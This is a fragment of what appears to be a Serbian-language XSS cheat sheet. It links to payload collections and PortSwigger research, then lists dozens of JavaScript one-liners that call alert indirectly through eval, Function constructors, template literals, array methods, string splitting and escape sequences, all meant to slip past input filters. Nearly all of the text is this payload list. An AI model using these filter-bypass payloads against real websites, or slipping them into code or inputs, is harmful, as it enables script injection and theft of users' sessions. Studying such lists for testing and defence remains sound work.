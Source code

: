````javascript
````

* [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
* [https://portswigger.net/research/javascript-without-parentheses-using-dommatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)

**Proizvoljan poziv funkcije (alert)**

````javascript
//Eval like functions
eval('ale'+'rt(1)')
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Function('ale'+'rt(10)')``;
[].constructor.constructor("alert(document.domain)")``
[]["constructor"]["constructor"]`$${alert()}```
import('data:text/javascript,alert(1)')

//General function executions
`` //Can be use as parenthesis
alert`document.cookie`
alert(document['cookie'])
with(document)alert(cookie)
(alert)(1)
(alert(1))in"."
a=alert,a(1)
[1].find(alert)
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)
[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
top[/al/.source+/ert/.source](1)
top[8680439..toString(30)](1)
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
$='e'; x='ev'+'al'; x=this[x]; y='al'+$+'rt(1)'; y=x(y); x(y)
x='ev'+'al'; x=this[x]; y='ale'+'rt(1)'; x(x(y))
this[[]+('eva')+(/x/,new Array)+'l'](/xxx.xxx.xxx.xxx.xx/+alert(1),new Array)
globalThis[`al`+/ert/.source]`1`
this[`al`+/ert/.source]`1`
[alert][0].call(this,1)
window['a'+'l'+'e'+'r'+'t']()
window['a'+'l'+'e'+'r'+'t'].call(this,1)
top['a'+'l'+'e'+'r'+'t'].apply(this,[1])
(1,2,3,4,5,6,7,8,alert)(1)
x=alert,x(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
al\u0065rt`1`
top['al\145rt'](1)
````